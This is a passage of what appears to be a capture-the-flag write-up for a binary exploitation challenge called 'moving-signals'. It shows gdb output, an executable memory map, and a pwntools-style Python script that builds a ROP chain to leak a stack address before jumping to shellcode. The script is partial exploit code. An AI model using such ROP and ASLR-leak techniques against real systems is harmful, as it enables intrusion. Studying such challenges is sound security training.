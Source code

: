 ```c
      0x4100e <_start+14>      mov    rdx, 0x1f4
      0x41015 <_start+21>      syscall
 →    0x41017 <_start+23>      ret
[!] Cannot disassemble from $PC
```

Also, according to gdb, almost everything is executable:

```c
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000040000 0x0000000000041000 0x0000000000000000 r-x /home/throwaway/moving-signals
0x0000000000041000 0x0000000000042000 0x0000000000001000 rwx /home/throwaway/moving-signals
0x00007ffcb380d000 0x00007ffcb382e000 0x0000000000000000 rwx [stack]
0x00007ffcb38b3000 0x00007ffcb38b6000 0x0000000000000000 r-- [vvar]
0x00007ffcb38b6000 0x00007ffcb38b7000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
gef➤
```

At this point, it's pretty obvious what the author wants us to do. You're supposed to make a ROP-chain and abuse it to call user-written shellcode.

## Jumping to shellcode

Initially, I was thinking about using the rwx page at `0x41000` to execute shellcode. This would've been preferable to executing shellcode on the stack, because doing the former requires no ASLR leak.

Unfortunately, there exists no ROP gadget that can (trivially) modify the buffer written to by `read()`. Instead of returning to `0x41000`, we will try using a `write()` syscall to leak the stack, before returning to user-written shellcode at `rsi=rsp`.

We'll start by leaking ASLR:

```python
from pwnscripts import *
context.binary = 'moving-signals'
#r = context.binary.process()
r = gdb.debug(context.binary.path)
RDX = 0x1F4
def mROP():
    R = ROP(context.binary)
    R.raw(0)
    return R
context.log_level = 'debug'
# leak ASLR for stack address
R = mROP()
R.rax = constants.SYS_write
R.call(context.binary.symbols['_start']) # R._start() doesn't work for some reason
r.send(R.chain())
stack_leak = unpack_bytes(r.recv(RDX)[8:16], 8)
```
